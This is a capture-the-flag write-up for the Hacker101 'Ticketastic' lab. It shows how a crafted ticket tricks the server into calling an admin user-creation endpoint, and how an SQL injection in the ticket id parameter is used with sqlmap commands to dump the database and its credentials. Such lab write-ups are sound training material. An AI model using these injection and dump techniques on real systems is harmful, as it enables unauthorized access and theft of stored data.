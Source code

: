# Writeup for Ticketastic (Hacker101)
We have a Demo of the site where we could 'test' the product, that consists in a platfrom where an admin can replay to some tickets.

## Flag 1
Logging in with the provided username and password of Demo site on the `/admin` page we see that all the tickets are visible here.
In the description of the first ticket we get the first hint that say:
> This is your ordinary, run of the mill ticket.  If any errors occurred during processing -- 
> for instance, if the user gives a bad link -- these will be noted here.

So there is something that check for malicius url. 
We can exploit that!

Backing to the admin page there is the possibility for the admin to create a new user. If we try to do so we see that the creation is done using a get request. `/newUser?username=<>&password=<>&password2=<>`

So the exploit is pretty simple we have to create a new ticket in the real working site and write in its content the endpoint that creates a new users, then the server will check it and accidentally creates the new user.

It works! When we log in we see the in the first ticket there is the first flag.

## Flag 2
After logged in I try to play a bit with the site, and I see that the retriving of the tickets is done with url query `/ticket?id=1`, and trying to add a quote to the end we see that we get the full stack of an error:
```log
Traceback (most recent call last):
  File "./main.py", line 78, in ticket
    cur.execute('SELECT title, body, reply FROM tickets WHERE id=%s' % request.args['id'])
  File "/usr/local/lib/python2.7/site-packages/MySQLdb/cursors.py", line 255, in execute
    self.errorhandler(self, exc, value)
  File "/usr/local/lib/python2.7/site-packages/MySQLdb/connections.py", line 50, in defaulterrorhandler
    raise errorvalue
ProgrammingError: (1064, 'You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near \'"\' at line 1')
```
It'seems that we can perform a nice SQL Injection.
I decide to use `sqlmap` but we can expoit it also by hand.
Running:
```bash
sqlmap -u '<url>/ticket?id=1' --cookie="session_level7b=<cookie>" -p 'id' -a
```
In the output we see all the content of the DB, but we aren't interested in all the functional schema of it.
In the list of schema we see the Database level7, that's what we need.

```bash
sqlmap -u '<url>/ticket?id=1' --cookie="session_level7b=<cookie>" -p 'id' --dump -D level7`
```

In the outputs we find:

```
Database: level7
Table: users
[2 entries]
+------+----------+------------------------------------------------------------------------------+
| id   | username | password                                                                     |
+------+----------+------------------------------------------------------------------------------+
| 1    | admin    | ^FLAG^dec3cf71a4a7359272fa8c5176377f6d024e6da40372eb64fbfcab2e05cd3d91$FLAG$ |
| 2    | pwned    | provami                                                                      |
+------+----------+------------------------------------------------------------------------------+
```
And that's the second flag.